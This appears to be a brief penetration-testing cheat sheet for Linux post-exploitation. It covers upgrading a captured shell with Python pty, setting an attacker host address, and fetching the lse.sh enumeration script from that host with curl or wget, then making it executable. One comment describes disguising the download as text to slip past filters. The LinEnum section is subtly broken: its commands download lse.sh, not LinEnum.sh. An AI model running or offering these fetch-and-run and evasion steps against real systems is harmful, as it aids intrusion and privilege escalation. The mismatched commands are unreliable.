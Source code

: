 ## Tools
### shell stability 
``` python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

### aliases
```bash
alias ll='ls -la'
```

### Environment variables
#### rhost
```bash
export rhost=192.168.X.X
```

### LSE
```bash
./lse.sh -l 1 | tee lse.txt
```
#### curl
```bash
curl http://$rhost/linux-smart-enumeration/lse.sh -o lse.sh && chmod +x lse.sh
```
gets page from server, then makes it executable. sending as txt to potentially avoid filters
### wget
``` bash
wget http://$rhost/linux-smart-enumeration/lse.sh && chmod +x lse.sh
```

### LinEnum
```bash
./LinEnum.sh | tee linenum.txt
```
#### curl
```bash
curl http://$rhost/linux-smart-enumeration/lse.sh -o lse.sh && chmod +x lse.sh
```
gets page from server, then makes it executable. sending as txt to potentially avoid filters
### wget
``` bash
wget http://$rhost/linux-smart-enumeration/lse.sh && chmod +x lse.sh
```